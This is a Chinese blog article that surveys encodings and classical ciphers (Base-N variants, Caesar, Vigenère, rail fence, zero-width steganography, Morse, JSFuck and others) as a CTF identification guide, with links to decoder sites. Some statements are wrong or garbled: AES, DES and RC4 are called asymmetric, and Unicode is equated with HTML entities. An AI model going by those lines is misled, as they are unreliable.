| 码值 | 字符 | 码值 | 字符 | 码值 | 字符 | 码值 | 字符 | 码值 | 字符 | 码值 | 字符 | 码值 | 字符 | 码值 | 字符 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 0    | A    | 8    | I    | 16   | Q    | 24   | Y    | 32   | g    | 40   | o    | 48   | w    | 56   | 4    |
| 1    | B    | 9    | J    | 17   | R    | 25   | Z    | 33   | h    | 41   | p    | 49   | x    | 57   | 5    |
| 2    | C    | 10   | K    | 18   | S    | 26   | a    | 34   | i    | 42   | q    | 50   | y    | 58   | 6    |
| 3    | D    | 11   | L    | 19   | T    | 27   | b    | 35   | j    | 43   | r    | 51   | z    | 59   | 7    |
| 4    | E    | 12   | M    | 20   | U    | 28   | c    | 36   | k    | 44   | s    | 52   | 0    | 60   | 8    |
| 5    | F    | 13   | N    | 21   | V    | 29   | d    | 37   | l    | 45   | t    | 53   | 1    | 61   | 9    |
| 6    | G    | 14   | O    | 22   | W    | 30   | e    | 38   | m    | 46   | u    | 54   | 2    | 62   | +    |
| 7    | H    | 15   | P    | 23   | X    | 31   | f    | 39   | n    | 47   | v    | 55   | 3    | 63   | /    |

### 01Base64使用注意问题

#### 一、Base64和URL传参问题

标准的Base64并不适合直接放在URL里传输，因为URL编码器会把标准Base64中的“/”和“+”字符变为形如“%XX”的形式，而这些“%”号在存入[数据库](https://cloud.tencent.com/solution/database?from_column=20065&from=20065)时还需要再进行转换，因为ANSI SQL中已将“%”号用作通配符。

为解决此问题，可采用一种用于URL的改进Base64编码，它在末尾填充’='号，并将标准Base64中的“+”和“/”分别改成了“-”和“_”，这样就免去了在URL编解码和[数据库存储](https://cloud.tencent.com/product/crs?from_column=20065&from=20065)时所要作的转换，避免了编码信息长度在此过程中的增加，并统一了数据库、表单等处对象标识符的格式。

#### 二、Base64和URL传参问题改善

另有一种用于正则表达式的改进Base64变种，它将“+”和“/”改成了“!”和“-”，因为“+”,“*”以及前面在IRCu中用到的“[”和“]”在正则表达式中都可能具有特殊含义。

此外还有一些变种，它们将“+/”改为“*-”或“.*”（用作编程语言中的标识符名称）或“.-”（用于XML中的Nmtoken）甚至“_:”（用于XML中的Name）。

#### 三、Base64转换后比原有的字符串长1/3

Base64要求把每三个8Bit的字节转换为四个6Bit的字节（3*8 = 4*6 = 24），然后把6Bit再添两位高位0，组成四个8Bit的字节，也就是说，转换后的字符串理论上将要比原来的长1/3。

#### 四、Base64转换总结

Base64转换，最好是不要用在加密上，尤其是参数加密，很容易出问题。

### 02Base58

```
6tmHCZvhgfNjQu
```

**它最大的特点是没有等号**

Base58是用于比特币（Bitcoin）中使用的一种独特的编码方式，主要用于产生Bitcoin的钱包地址。

相比Base64，Base58不使用数字"0"，字母大写"O"，字母大写"I"，和字母小写"l"，以及"+“和”/"符号。

比特币的Base58字母表：

123456789ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz

简单的说：Base58一种编码方式，跟十进制，十六进制一样，不过更短更省空间。

**Base58的原理是什么？**

二进制：0和1

十进制：1到10

十六进制：十进制的基础上加上了A-F 六个字母

Base58可以理解为一种58进制。

Base58包含了阿拉伯数字、小写英文字母，大写英文字母。

但是去掉了一些容易混淆的数字和字母：0（数字0）、O（o的大写字母）、l（ L的小写字母）、I（i的大写字母）


### 03Base32

```
GEZDGNBVGY3TQOJQGE======
```

**他的特点是明文超过十个后面就会有很多等号**

Base32使用了ASCII编码中可打印的32个字符(大写字母AZ和数字27)对任意字节数据进行编码.Base32将串起来的二进制数据按照5个二进制位分为一组，由于传输数据的单位是字节(即8个二进制位).所以分割之前的二进制位数是40的倍数(40是5和8的最小公倍数).如果不足40位，则在编码后数据补充"="，一个"="相当于一个组(5个二进制位)，编码后的数据是原先的8/5倍. **Base32编码表**

|      |      |      |      |      |      |      |      |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 值   | 符号 | 值   | 符号 | 值   | 符号 | 值   | 符号 |
| 0    | A    | 8    | I    | 16   | Q    | 24   | Y    |
| 1    | B    | 9    | J    | 17   | R    | 25   | Z    |
| 2    | C    | 10   | K    | 18   | S    | 26   | 2    |
| 3    | D    | 11   | L    | 19   | T    | 27   | 3    |
| 4    | E    | 12   | M    | 20   | U    | 28   | 4    |
| 5    | F    | 13   | N    | 21   | V    | 29   | 5    |
| 6    | G    | 14   | O    | 22   | W    | 30   | 6    |
| 7    | H    | 15   | P    | 23   | X    | 31   | 7    |
| 填充 | =    |      |      |      |      |      |      |

Base32将任意字符串按照字节进行切分，并将每个字节对应的二进制值（不足8比特高位补0）串联起来，按照5比特一组进行切分，并将每组二进制值转换成十进制来对应32个可打印字符中的一个。


由于数据的二进制传输是按照8比特一组进行（即一个字节），因此Base32按5比特切分的二进制数据必须是40比特的倍数（5和8的最小公倍数）。例如输入单字节字符“%”，它对应的二进制值是“100101”，前面补两个0变成“00100101”（二进制值不足8比特的都要在高位加0直到8比特），从左侧开始按照5比特切分成两组：“00100”和“101”，后一组不足5比特，则在末尾填充0直到5比特，变成“00100”和“10100”，这两组二进制数分别转换成十进制数，通过上述表格即可找到其对应的可打印字符“E”和“U”，但是这里只用到两组共10比特，还差30比特达到40比特，按照5比特一组还需6组，则在末尾填充6个“=”。填充“=”符号的作用是方便一些程序的标准化运行，大多数情况下不添加也无关紧要，而且，在URL中使用时必须去掉“=”符号。

**与Base64相比，Base32具有许多优点：**

- 适合不区分大小写的文件系统，更利于人类口语交流或记忆。
- 结果可以用作文件名，因为它不包含路径分隔符 “/”等符号。
- 排除了视觉上容易混淆的字符，因此可以准确的人工录入。（例如，RFC4648符号集忽略了数字“1”、“8”和“0”，因为它们可能与字母“I”，“B”和“O”混淆）。
- 排除填充符号“=”的结果可以包含在URL中，而不编码任何字符。

Base32也比Base16有优势：

- Base32比Base16占用的空间更小。（1000比特数据Base32需要200个字符，而Base16则为250个字符）

Base32的缺点：

- Base32比Base64多占用大约20％的空间。因为Base32使用8个ASCII字符去编码原数据中的5个字节数据，而Base64是使用4个ASCII字符去编码原数据中的3个字节数据。

### 04Base16

**它的特点是没有等号并且数字要多于字母**

Base16编码的方式：

1.将数据(根据ASCII编码，UTF-8编码等)转成对应的二进制数，不足8比特位高位补0。然后将所有的二进制全部串起来，4个二进制位为一组，转化成对应十进制数。

2.根据十进制数值找到Base16编码表里面对应的字符。Base16是4个比特位表示一个字符，所以原始是1个字节(8个比特位)刚好可以分成两组,也就是说原先如果使用ASCII编码后的一个字符，现在转化成两个字符。数据量是原先的2倍。

| 值   | 编码 | 值   | 编码 |
| :--- | :--- | :--- | :--- |
| 0    | 0    | 8    | 8    |
| 1    | 1    | 9    | 9    |
| 2    | 2    | 10   | A    |
| 3    | 3    | 11   | B    |
| 4    | 4    | 12   | C    |
| 5    | 5    | 13   | D    |
| 6    | 6    | 14   | E    |
| 7    | 7    | 15   | F    |

Base16编码是一个标准的十六进制字符串（注意是字符串而不是数值），更易被人类和计算机使用，因为它并不包含任何控制字符，以及Base64和Base32中的“=”符号。


### 05Base85

```
@:X4hDWe0rkE(G[OdP4CT]N#
```

**特点是奇怪的字符比较多，但是很难出现等号**



### 06Base100

```
👘👛👤👠👥
```

**特点就是一堆Emoji表情**

Base100编码/解码工具（又名：Emoji表情符号编码/解码），可将文本内容编码为Emoji表情符号；同时也可以将编码后的Emoji表情符号内容解码为文本。


### **常用解密网站：**

Base64：

- [tool.oschina.net](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Ftool.oschina.net%2Fencrypt%3Ftype%3D3&source=article&objectId=1748394)
- [www.sojson.com](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fwww.sojson.com%2Fbase64.html&source=article&objectId=1748394)
- [base64.us](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fbase64.us%2F&source=article&objectId=1748394)

Base58：[www.metools.info](https://cloud.tencent.com/developer/tools/blog-entry?target=http%3A%2F%2Fwww.metools.info%2Fcode%2Fc74.html&source=article&objectId=1748394) Base32、16：[www.qqxiuzi.cn](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fwww.qqxiuzi.cn%2Fbianma%2Fbase.php&source=article&objectId=1748394) Base100：[www.atoolbox.net](https://cloud.tencent.com/developer/tools/blog-entry?target=http%3A%2F%2Fwww.atoolbox.net%2FTool.php%3FId%3D936&source=article&objectId=1748394)

## 0x03：AES、DES、RC4、Rabbit、Triple DES（3DES）

这些都是非对称性加密算法，就是引入了密钥，密文特征与Base64类似


### 加密算法导读

- 加密一般分为对称加密(Symmetric Key Encryption)和非对称加密(Asymmetric Key Encryption)

- 常见的对称加密算法：DES、3DES、DESX、Blowfish、IDEA、RC4、RC5、RC6 和 AES

- 常见的非对称加密算法：RSA、ECC （移动设备用）、Diffie-Hellman、El Gamal、DSA （数字签名用）

- 常见的 Hash 算法：MD2、MD4、MD5、HAVAL、SHA、SHA-1、HMAC、HMAC-MD5、HMAC-SHA1

分组加密算法中，有ECB,CBC,CFB,OFB这几种算法模式

### 什么是对称密码算法

```
什么是对称加密算法
对称加密算法，又称为私钥加密算法，是指加密和解密使用相同密钥的一种加密方式。

对称加密算法主要分为两类：流式加密和块式加密。

流式加密是对数据流进行逐位或逐字节的加密，而块式加密则是将数据分成一块一块的进行加密。
```


- 网络安全通信中要用到两类密码算法，加密一般分为对称加密(Symmetric Key Encryption)和非对称加密(Asymmetric Key Encryption)。对称密码算法有时又叫传统密码算法、秘密密钥算法或单密钥算法，非对称密码算法也叫公开密钥密码算法或双密钥算法。对称密码算法的加密密钥能够从解密密钥中推算出来，反过来也成立。在大多数对称算法中，加密解密密钥是相同的。它要求发送者和接收者在安全通信之前，商定一个密钥。对称算法的安全性依赖于密钥，泄漏密钥就意味着任何人都能对消息进行加密解密。只要通信需要保密，密钥就必须保密。

- 对称算法又可分为两类。一次只对明文中的单个位（有时对字节）运算的算法称为序列算法或序列密码。另一类算法是对明文的一组位进行运算，这些位组称为分组，相应的算法称为分组算法或分组密码。现代计算机密码算法的典型分组长度为64位――这个长度既考虑到分析破译密码的难度，又考虑到使用的方便性。后来，随着破译能力的发展，分组长度又提高到128位或更长。

常用的采用对称密码术的加密方案有5个组成部分：

- 1)明文：原始信息。

- 2)加密算法：以密钥为参数，对明文进行多种置换和转换的规则和步骤，变换结果为密文。

- 3)密钥：加密与解密算法的参数，直接影响对明文进行变换的结果。

- 4)密文：对明文进行变换的结果。

- 5)解密算法：加密算法的逆变换，以密文为输入、密钥为参数，变换结果为明文。

分组加密算法中，一般有ECB,CBC,CFB,OFB这几种算法模式。

### 对称加密与非对称加密对比

- 在管理方面：公钥密码算法只需要较少的资源就可以实现目的，在密钥的分配上，两者之间相差一个指数级别（一个是 n 一个是 n2）。所以私钥密码算法不适应广域网的使用，而且更重要的一点是它不支持数字签名；

- 在安全方面：由于公钥密码算法基于未解决的数学难题，在破解上几乎不可能。对于私钥密码算法，到了 AES 虽说从理论来说是不可能破解的，但从计算机的发展角度来看。公钥更具有优越性；

- 从速度上来看：AES 的软件实现速度已经达到了每秒数兆或数十兆比特。是公钥的 100 倍，如果用硬件来实现的话这个比值将扩大到 1000 倍。

- 对称加密优缺点：对称加密相比非对称加密算法来说，加解密的效率要高得多、加密速度快。但是缺陷在于对于密钥的管理和分发上比较困难，不是非常安全，密钥管理负担很重。

- 非对称加密优缺点：安全性更高，公钥是公开的，密钥是自己保存的，不需要将私钥给别人。缺点：加密和解密花费时间长、速度慢，只适合对少量数据进行加密。

### 主要的对称加密算法

```
DES（Data Encryption Standard）：DES是一种广泛使用的块式加密算法，但现在已经被认为不够安全。
3DES（Triple DES）：3DES是对DES加密三次的一种方式，它的安全性比DES更高，但效率比DES低。
AES（Advanced Encryption Standard）：AES是目前最广泛使用的对称加密算法，它的安全性和效率都非常高。
RC4：RC4是一种流式加密算法，以前在SSL和WEP中被广泛使用，但现在已经被认为不够安全。
```

### 非对称加密算法

```
  非对称加密算法：加密和解密可以使用不同的规则，只要这两种规则之间存在某种对应关系即可。

  (1)、B根据算法生成两把密钥（公钥和私钥），其中私钥是保密的，公钥是公开的，供要与B通信的其它人使用；

  (2)、A从B处获取公钥，并用它来加密；

  (3)、B得到A加密后的信息，用私钥进行解密，完成通信；
```

```
示例：
(1) A 要向 B 发送信息，A 和 B 都要产生一对用于加密和解密的公钥和私钥。
(2) A 的私钥保密，A 的公钥告诉 B；B 的私钥保密，B 的公钥告诉 A。
(3) A 要给 B 发送信息时，A 用 B 的公钥加密信息，因为 A 知道 B 的公钥。
(4) A 将这个消息发给 B (已经用 B 的公钥加密消息)。
(5) B 收到这个消息后，B 用自己的私钥解密 A 的消息。其他所有收到这个报文的人都无法解密，因为只有 B 才有 B 的私钥。
```

## 0x04：Unicode、HTML实体编码、16进制Unicode

### unicode

```
1、Unicode——汉字示例&#36825;、字母示例&#116;、数字符号示例&#53;
```

# 7.23

**可以说Unicode与HTML实体编码是一个东西**

Unicode（统一码、万国码、单一码）是一种在计算机上使用的字符编码。Unicode 是为了解决传统的字符编码方案的局限而产生的，它为每种语言中的每个字符设定了统一并且唯一的二进制编码，以满足跨语言、跨平台进行文本转换、处理的要求。1990年开始研发，1994年正式公布。


### HTML实体编码

字符实体是用一个编号写入HTML代码中来代替一个字符，在使用浏览器访问网页时会将这个编号解析还原为字符以供阅读。

这么做的目的主要有两个： １、解决HTML代码编写中的一些问题。例如需要在网页上显示小于号（<）和大于号（>），由于它们是HTML的预留标签，可能会被误解析。这时就需要将小于号和大于号写成字符实体： 小于号这样写：< 或 < 大于号这样写：> 或 > 前面的写法称为实体名称，后面的写法则是实体编号。[ISO-8859-1字符集](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fwww.qqxiuzi.cn%2Fwz%2Fzixun%2F1681.htm&source=article&objectId=1748394)（西欧语言）中两百多个字符设定了实体名称，而对于其它所有字符都可以用实体编号来代替。 ２、网页编码采用了特定语言的编码，却需要显示来自其它语言的字符。例如，网页编码采用了西欧语言ISO-8859-1，却要在网页中显示中文，这时必须将中文字符以实体形式写入HTML代码中。


### 16进制unicode

```
\u8fd9\u662f\u4e00
```



### **常用解密网站：**

- Unicode：[www.sojson.com](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fwww.sojson.com%2Funicode.html&source=article&objectId=1748394)
- 16进制Unicode：[www.msxindl.com](https://cloud.tencent.com/developer/tools/blog-entry?target=http%3A%2F%2Fwww.msxindl.com%2Ftools%2Funicode16.asp&source=article&objectId=1748394)
- HTML字符实体：[www.qqxiuzi.cn](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fwww.qqxiuzi.cn%2Fbianma%2Fzifushiti.php&source=article&objectId=1748394)

## 0x05：Escape编码/加密、Unescape解码/解密、%u编码、%u解码

**特征：以`%u`开头**

**Escape/Unescape加密解码/编码解码**,又叫%u编码，从以往经验看编码字符串出现有"u"，它是unicode编码，那么Escape编码采用是那一种unicode实现形式呢。其实是UTF-16BE模式。这样一来问题非常简单了。 **Escape编码/加密**,就是字符对应UTF-16 16进制表示方式前面加%u。**Unescape解码/解密**，就是去掉"%u"后，将16进制字符还原后，由utf-16转码到自己目标字符。如：字符“中”，UTF-16BE是：“6d93”，因此Escape是“%u6d93”，反之也一样！因为目前%字符，常用作URL编码，所以%u这样编码已经逐渐被废弃了！


### **常用解密网站：**

[http://web.chacuo.net/charsetescape/](https://cloud.tencent.com/developer/tools/blog-entry?target=http%3A%2F%2Fweb.chacuo.net%2Fcharsetescape%2F&source=article&objectId=1748394)

## 0x06：URL、Hex编码

**这两种加密的密文是一样的，不同的是当你用url编码网站时是不会把http进行编码的，而Hex编码则全部转化了**

encodeURIComponent() 函数 与 encodeURI() 函数的区别 请注意 encodeURIComponent() 函数 与 encodeURI() 函数的区别之处，前者假定它的参数是 URI 的一部分（比如协议、主机名、路径或查询字符串）。因此 encodeURIComponent() 函数将转义用于分隔 URI 各个部分的标点符号。




### **常用解密网站：**

Hex编码：[https://www.107000.com/T-Hex](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fwww.107000.com%2FT-Hex&source=article&objectId=1748394) URL 编码：[https://www.sojson.com/encodeurl.html](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fwww.sojson.com%2Fencodeurl.html&source=article&objectId=1748394)

## 0x07：凯撒密码、维吉尼亚密码、栅栏密码基础型、栅栏密码W型

这几类密码原理都是移位调换加密，破解难度低

### 凯撒密码

```
iodj{khoor_zrug_123}
```

**只对字母进行加密，常用于CTF比赛中**

凯撒密码最早由古罗马军事统帅盖乌斯·尤利乌斯·凯撒在军队中用来传递加密信息，故称凯撒密码。此为一种位移加密手段，只对26个（大小写）字母进行位移加密，规则相当简单，容易被破解。下面是明文字母表移回3位的对比： 明文字母表 X Y Z A B C D E F G H I J K L M N O P Q R S T U V W 密文字母表 A B C D E F G H I J K L M N O P Q R S T U V W X Y Z 然后A变成D，B变成E，Z变成C。 字母最多可移动25位（按字母表）。通常为向后移动，如果您想向前移动1位，则相当于向后移动25位，位移选择为25位。


### 维吉尼亚密码

```
fmcg{iglmq_wptd_123}
```

**可以说是凯撒密码的加强版，引入了密钥**

维吉尼亚密码，它将凯撒密码的所有26种排列放到一个表中，形成26行26列的加密字母表。此外，维吉尼亚密码必须有一个由字母组成的密钥，至少有一个字母，最多与明文字母有相同数量的字母。 在凯撒密码中，每个字母都会进行一定偏移值转换，例如，当偏移值是3时，则B被转换为E，C转换成F…。在维吉尼亚密码加密中，则是由具有不同偏移的凯撒密码构成的。 要生成密码，需要使用表格方法，此表(如图所示)包含26行字母表，每一行从上一行到左行被一位偏移。加密时使用哪一行字母表是基于密钥的，在加密过程中密钥会不断变化。 例如，假设明文为： BTTACKATDAFG 选择一个关键字并重复它以获得密钥，例如，当关键字是LIMN时，键是： LIMNLIMNLIMN 在明文中的第一个字母B，对应于密钥中的第一个字母L，使用加密字母表中的L行字母进行加密，得到第一个字母的密文M。同样，第二个明文字母是T，它用表中的I行加密，得到第二个密文B。通过类比，我们可以得到： 明文：BTTACKATDAFG 键：LIMNLIMNLIMN 密文：MBFNNSMGOIRT 解密的过程是加密的逆过程。例如，密钥的第一个字母对应的L行字母表，发现密文的第一个字母M位于B列，因此明文的第一个字母是B。密钥的第二个字母对应于I行字母表，而密文的第二个字母B位于该行的T列中，因此明文的第二个字母是T。等等，你可以得到明文。

```
代表行列，b对应l就是b横l竖的m字母
```

表格：


### 栅栏密码基础型

**栅栏密码是按一定规则将明文内容互相调换了位置**

栅栏密码(Rail fence Cipher)基础型加密方式，是一种简单的移动字符位置的加密方法，首先把加密的明文分成N个一组，然后把每组的第1、第2、第M个字符连起来，形成无规律的密文字符串。

例如字符串“123456789abc”，首先将字符串分成3组，如下排列： 1234 5678 9abc 依次取每一组字符，组成加密后密文：“15926a37b48c”。

```
1234
5678
9abc
这样竖着把每一竖的字母连起来排列就为：
15926a37b48c
```


### 栅栏密码w型

栅栏密码W型加密算法： 栅栏密码(Rail fence Cipher)，扩展变种W型，采用先把明文类似"W"形状进行排列，然后再按栏目顺序1-N，取每一栏的所有字符值，组成加密后密文。 比如字符串“123456789”，采用栏目数为3的时，明文将采用如下排列： 1—5---9 -2-4-6-8- –3----7– 取每一栏所有字符串，组成加密后密文：“159246837”。 W型栅栏密码加密方式，比传统型栅栏密码加密方法，算法略有增强，但目前已只能用于学习算法验证。

```
1---5---9
-2-4-6-8-
–3-----7–
按照w的书写方式，来按顺序书写，最后再按照某种排列方式来组成加密密文
```


### **常用解密网站：**

- 凯撒密码：[www.qqxiuzi.cn](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fwww.qqxiuzi.cn%2Fbianma%2Fkaisamima.php&source=article&objectId=1748394)
- 维吉尼亚密码：[www.metools.info](https://cloud.tencent.com/developer/tools/blog-entry?target=http%3A%2F%2Fwww.metools.info%2Fcode%2Fc71.html&source=article&objectId=1748394)
- 栅栏密码基础性：[www.metools.info](https://cloud.tencent.com/developer/tools/blog-entry?target=http%3A%2F%2Fwww.metools.info%2Fcode%2Frailfencecipher_155.html&source=article&objectId=1748394)
- 栅栏密码W型：[www.metools.info](https://cloud.tencent.com/developer/tools/blog-entry?target=http%3A%2F%2Fwww.metools.info%2Fcode%2Frailfencecipher_154.html&source=article&objectId=1748394)
- https://www.metools.info/master/

## 文本隐藏加密、零宽隐写

### 文本隐藏加密

**特征：加密过的密文会比原文的字节数多，当你按删除键的时候会发现某一处要按好多下才能把前面的字删掉**

原理**：它的原理是在密文中加入了不可见字符组成的编码，例如上述看似九个字符的一句话，通过[字数查询](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fwww.qqxiuzi.cn%2Fzh%2Fzishu-zijieshu%2F&source=article&objectId=1748394)可知它实际上有87个字符，多出的字符是由[零宽空格](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fwww.qqxiuzi.cn%2Fzh%2Fspace.html&source=article&objectId=1748394)实现的编码，因为零宽空格不占据空间，所以看不出它的存在。

**使用**：在进行文本隐藏加密时，将需要隐藏的文字写在括号中，就像这样“你好（有才华），我好喜欢你（画的画）！”，然后加密即可隐藏括号内的文字。同时可以设定一个密码，这样只有知道密码的人才能解密隐藏的文字。密码可以是数字、字母和下划线，最多九位。


这是加密后的字节数


 这是本来的字节数


### 零宽隐写

**特征：解密后明文与密文会分开显示，密文一般隐藏在第一个字后面，不信你试试，保证你十下之内删不完**

与上面文本隐藏加密的原理一样，但过程不一样


 这里加密过的密文在文本隐藏加密中解不出来


### **常用解密网站：**

文本隐藏加密：[www.qqxiuzi.cn](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fwww.qqxiuzi.cn%2Fbianma%2Fyincangjiami.php&source=article&objectId=1748394) 零宽隐写：[yuanfux.github.io](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fyuanfux.github.io%2Fzero-width-web%2F&source=article&objectId=1748394)

## 特殊暗号类加密

这类加密都是特征性比较强的，易辨别

### 猪圈密码

**特点：只能对字母加解密并且符号无法复制，粘贴后会直接显示明文**

猪圈密码（亦称朱高密码、共济会暗号、共济会密码或共济会员密码），是一种以格子为基础的简单替代式密码，曾经是美国内战时盟军使用的密码，目前仅在密码教学、各种竞赛中使用。


#### **常用解密网站：**

[http://www.metools.info/code/c90.html](https://cloud.tencent.com/developer/tools/blog-entry?target=http%3A%2F%2Fwww.metools.info%2Fcode%2Fc90.html&source=article&objectId=1748394)

### 与佛论禅

**特点：就是你看不懂的佛语**


#### **常用解密网站：**

[http://www.keyfc.net/bbs/tools/tudoucode.aspx](https://cloud.tencent.com/developer/tools/blog-entry?target=http%3A%2F%2Fwww.keyfc.net%2Fbbs%2Ftools%2Ftudoucode.aspx&source=article&objectId=1748394)

### 百家姓暗号

**特征：不要多说当你看到一串百家姓的时候多半就是这个暗号了**


当他解密的的时候前面会多一串固定字符


#### **常用解密网站：**

- [https://www.ahz0.com/bjx.html](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fwww.ahz0.com%2Fbjx.html&source=article&objectId=1748394)
- [https://www.w168.net/anhao.html](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fwww.w168.net%2Fanhao.html&source=article&objectId=1748394)
- [https://api.dujin.org/baijiaxing/](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fapi.dujin.org%2Fbaijiaxing%2F&source=article&objectId=1748394)
- [https://www.ddosi.com/ah.html](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fwww.ddosi.com%2Fah.html&source=article&objectId=1748394)

### 卡尔达诺栅格码

**特征：把明文伪装成垃圾邮件，看着这么多内容，其实我只是加密了admin**


#### **常用解密网站：**

[https://www.spammimic.com/](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fwww.spammimic.com%2F&source=article&objectId=1748394)

### 莫尔斯电码

**特征：密文由不规律的`.`、`/`、`-`组成**

- 摩尔斯电码（Morse alphabet）（又译为摩斯电码）是一种时通时断的信号代码，这种信号代码通过不同的排列顺序来表达不同的英文字母、数字和标点符号等。
- 由美国人摩尔斯（Samuel Finley Breese Morse）于1837年发明，为摩尔斯电报机的发明（1835年）提供了条件。
- 摩尔密码加密的字符只有字符，数字，标点，不区分大小写，支持中文汉字
- 中文摩斯加密解密：本工具摩尔密码加密是互联网上唯一一个可以对中文进行摩斯编码的工具。

##### 莫尔斯电码加密列表 | Morse Code List

**一、26个字母的莫尔斯电码加密**

|      |          |      |          |      |          |      |          |
| :--- | :------- | :--- | :------- | :--- | :------- | :--- | :------- |
| 字符 | 电码符号 | 字符 | 电码符号 | 字符 | 电码符号 | 字符 | 电码符号 |
| A    | ．━      | B    | ━ ．．． | C    | ━ ．━ ． | D    | ━ ．．   |
| E    | ．       | F    | ．．━ ． | G    | ━ ━ ．   | H    | ．．．． |
| I    | ．．     | J    | ．━ ━ ━  | K    | ━ ．━    | L    | ．━ ．． |
| M    | ━ ━      | N    | ━ ．     | O    | ━ ━ ━    | P    | ．━ ━ ． |
| Q    | ━ ━ ．━  | R    | ．━ ．   | S    | ．．．   | T    | ━        |
| U    | ．．━    | V    | ．．．━  | W    | ．━ ━    | X    | ━ ．．━  |
| Y    | ━ ．━ ━  | Z    | ━ ━ ．． |      |          |      |          |

**二、数字的莫尔斯电码加密**

|      |            |      |            |      |            |      |            |
| :--- | :--------- | :--- | :--------- | :--- | :--------- | :--- | :--------- |
| 字符 | 电码符号   | 字符 | 电码符号   | 字符 | 电码符号   | 字符 | 电码符号   |
| 0    | ━ ━ ━ ━ ━  | 1    | ．━ ━ ━ ━  | 2    | ．．━ ━ ━  | 3    | ．．．━ ━  |
| 4    | ．．．．━  | 5    | ．．．．． | 6    | ━ ．．．． | 7    | ━ ━ ．．． |
| 8    | ━ ━ ━ ．． | 9    | ━ ━ ━ ━ ． |      |            |      |            |

**三、标点符号的莫尔斯电码加密**

| 字符 | 电码符号     | 字符 | 电码符号     | 字符 | 电码符号      | 字符 | 电码符号     |
| :--- | :----------- | :--- | :----------- | :--- | :------------ | :--- | :----------- |
| .    | ．━ ．━ ．━  | :    | ━ ━ ━ ．．． | ,    | ━ ━ ．．━ ━   | ;    | ━ ．━ ．━ ． |
| ?    | ．．━ ━ ．． | =    | ━ ．．．━    | ’    | ．━ ━ ━ ━ ．  | /    | ━ ．．━ ．   |
| !    | ━ ．━ ．━ ━  | ━    | ━ ．．．．━  | _    | ．．━ ━ ．━   | "    | ．━ ．．━ ． |
| (    | ━ ．━ ━ ．   | )    | ━ ．━ ━ ．━  | $    | ．．．━ ．．━ | &    | ． ．．．    |
| @    | ．━ ━ ．━ ． |      |              |      |               |      |              |


**常用解密网站：**

[https://www.atool99.com/morse.php](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fwww.atool99.com%2Fmorse.php&source=article&objectId=1748394)

### Quoted-Printable

**这种编码常用与邮件处理，只能对汉字进行编码，特征是=加两个大写字母或数字组合**


#### **常用解密网站：**

- [http://www.mxcz.net/tools/QuotedPrintable.aspx](https://cloud.tencent.com/developer/tools/blog-entry?target=http%3A%2F%2Fwww.mxcz.net%2Ftools%2FQuotedPrintable.aspx&source=article&objectId=1748394)

### ROT13

**特征：它与凯撒密码差不多都是字母替换，你看到一句特别奇怪的语句可能就是它编码的**

ROT13（回转13位，Template:lang，有时中间加了个减号称作ROT-13）是一种简易的置换暗码。它是一种在网路论坛用作隐藏八卦（spoiler）、妙句、谜题解答以及某些脏话的工具，目的是逃过版主或管理员的匆匆一瞥。 ROT13被描述成「杂志字谜上下颠倒解答的Usenet对等体」（Usenet equivalent of a magazine printing the answer to a quiz upside down.）Template:cite web ROT13也是过去在古罗马开发的凯撒加密的一种变体。


#### **常用解密网站：**

[http://www.mxcz.net/tools/rot13.aspx](https://cloud.tencent.com/developer/tools/blog-entry?target=http%3A%2F%2Fwww.mxcz.net%2Ftools%2Frot13.aspx&source=article&objectId=1748394)

### 文本加密为汉字

**特征：将明文加密成各种繁体字后面带俩等号**


它不仅可以加密成汉字，还可以加密成以下几种类型


比如这样：


这样：


#### **常用解密网站：**

[https://www.qqxiuzi.cn/bianma/wenbenjiami.php](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fwww.qqxiuzi.cn%2Fbianma%2Fwenbenjiami.php&source=article&objectId=1748394)

## js专用加密

### 颜文字js加密



#### **常用解密网站：**

[https://utf-8.jp/public/aaencode.html](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Futf-8.jp%2Fpublic%2Faaencode.html&source=article&objectId=1748394)

### jother编码

**特征：只用`! + ( ) [ ] { }`这八个字符就能完成对任意字符串的编码。也可在F12中解密执行**


#### **常用解密网站：**

[http://tmxk.org/jother/](https://cloud.tencent.com/developer/tools/blog-entry?target=http%3A%2F%2Ftmxk.org%2Fjother%2F&source=article&objectId=1748394)

### JSFuck编码

**特征：与jother很像，只是少了`{ }`**


#### **常用解密网站：**

[http://www.jsfuck.com/](https://cloud.tencent.com/developer/tools/blog-entry?target=http%3A%2F%2Fwww.jsfuck.com%2F&source=article&objectId=1748394)

# 常见网络协议

学习地址：

```
http://www.cnblogs.com/maybe2030/p/4781555.html
```

## 概述

